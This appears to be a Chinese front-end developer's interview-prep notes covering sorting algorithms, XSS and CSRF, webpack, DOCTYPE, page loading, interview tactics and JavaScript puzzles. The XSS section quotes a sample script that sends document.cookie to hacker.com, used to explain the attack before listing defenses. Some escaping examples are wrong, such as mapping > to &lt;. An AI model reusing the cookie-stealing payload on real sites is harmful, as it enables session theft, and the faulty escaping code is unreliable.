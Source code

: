 
#### 算法押题  
1. 排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
    1. 快速排序  http://segmentfault.com/a/1190000009426421
    2. 选择排序  http://segmentfault.com/a/1190000009366805
    3. 希尔排序  http://segmentfault.com/a/1190000009461832
    4. 冒泡排序
2. 二分查找法
3. 递归
    -  http://segmentfault.com/a/1190000009857470
4. 堆栈***，队列，链表
    - http://juejin.im/entry/58759e79128fe1006b48cdfd
   
    
#### 安全押题

1. 什么是 XSS 攻击？如何预防？
    - 跨域脚本攻击,cross-site scripting
    - 核心：向页面注入脚本(js)
    
    ```
    div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
// 恶意就被执行了，这就是 XSS
    ```
    - 预防
        - 不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
        - 如果你一样要用 innerHTML，字符过滤
            - 把 < 替换成 &lt;
            - 把 > 替换成 &gt;
            - 把 & 替换成 &amp;
            - 把 ’ 替换成 &#39;
            - 把 ’ 替换成 &quot;
            - 代码 div.innerHTML = userComment.replace(/>/g, ‘&lt;’).replace…
        - 使用 CSP Content Security Policy


2. 什么是 CSRF 攻击？如何预防？
    - 跨站请求伪造,Cross-site Request Forgery
    - 过程:
        - 用户在注册网站A登陆过，网站A给用户下发cookie
        - 该用户又访问了网站B，网站B有诱导链接，用户点击后，访问到了网站A，浏览器自动上传cookie，网站A对身份验证后发现是正确的，然后允许登录，网站B对网站A进行攻击
        - 关键：用户在注册网站A登陆过
        - 网站中某个接口存在漏洞
    - 防御措施
        - Referer验证：页面来源
        - Token验证：登录时，向用户本地存放一个Token，用于下次登录的验证

3. XSS和CSRF区别
    - XSS : 向页面注入js，运行js，做一些事情
    - CSRF: 
        - 依赖于用户登录网站
        - 利用本身的漏洞，去帮你自动执行接口


#### Webpack 题
1. 转译出的文件过大怎么办？
    - 使用 code split
    - 写法  import(‘xxx’).then(xxx=>{console.log(xxx)})
    - xxx 模块就是按需加载的

2. 转译速度慢什么办？
    - webpack 慢 怎么办，搜一下
3. 写过 webpack loader 吗？[参考](http://www.alloyteam.com/2016/01/webpack-loader-1/)

#### 发散题
1. 什么是DOCTYPE及作用
    1. DTD(document type definition,文档类型定义)是一系列语法规则，用来定义XML和HTML的文件类型，浏览器使用它来判断文档类型，决定使用何种协议解析，以及切换浏览器模式。
        - 一句话：DTD告诉浏览器我是什么文档类型，浏览器根据这个来判断我用什么引擎来解析它，渲染它
    2. DOCTYPE是用来声明文档类型和DTD规范的，一个主要用途就是文件合法性的验证，如果文件代码不合法，那么浏览器解析时就会出一些差错。
        - 直接告诉浏览器什么是DTD
    3. 常见的DOCTYPE有哪些
        - HTML5   <!DOCTYPE html>
        - 4.0版本
            - 严格模式：该DTD包含所有的HTML元素和属性，但不包含展示性和弃用的元素（比如font）
            - 宽松模式：该DTD包含所有的HTML元素和属性，包含展示性和弃用的元素（比如font）

2. 从输入 URL 到页面展现中间发生了什么？
    - DNS 查询 DNS 缓存
    - 建立 TCP 连接（三次握手）连接复用
    - 发送 HTTP 请求（请求的四部分）
    - 后台处理请求
        - 监听 80 端口
        - 路由
        - 渲染 HTML 模板
        - 生成响应
    - 发送 HTTP 响应
    - 关闭 TCP 连接（四次挥手）
    - 解析 HTML
    - 下载 CSS（缓存
    - 解析 CSS
    - 下载 JS（缓存
    - 解析 JS
    - 下载图片
    - 解析图片
    - 渲染 DOM 树
    - 渲染样式树
    - 执行 JS

3. 你没有工作经历吗？
    - 一开始就问，可以拜拜。
    - 中间问最后问，他想压价。
    - 解法：用项目打动它：你看下我的作品，跟一年经验的前端差距大吗？你们团队一年工作经验的前端，写的出来我这样的作品吗？凭我的作品，我觉得我可以胜任贵司的工作。

4. 你遇到过最难的问题是什么？
    - [参考](https://www.zhihu.com/question/35323603/answer/338796153)
5. 你的期望薪资是多少？ 你想要的工资 加 1000~2000。
6. 任何你不会的问题
    - 承认不会
    - 询问详细细节：你问的是不是XXX方面的知识？请问你想问的是哪方面知识？
    - 根据面试官的回答，向有利于自己的方向引导话题。


#### 刁钻代码题
1. map加parseInt
    
    ```
    [1,2,3].map(parseInt)
    parseInt(1,0, array) // 1
    parseInt(2,1, array) // NaN
    parseInt(3,2, array) // NaN
    ```

2. a.x = a = {}
    
    ```
    var a = {n:1};
    var b = a;
    a.x = a = {n:2};
    
    问 a.x 是多少？ // undefined a.x是之前的a，现在的a.x不存在
    ```
3. (a == 1 && a== 2 && a==3) 可能为 true 吗？
    
    ```
    a = {
      value: 0,
      toString(){
        a.value += 1
        return a.value 
      }
    }
    ```

### 学习网站
1. stack Overflow
2. 掘金
3. 谷歌
4. CNode社区
5. 知乎

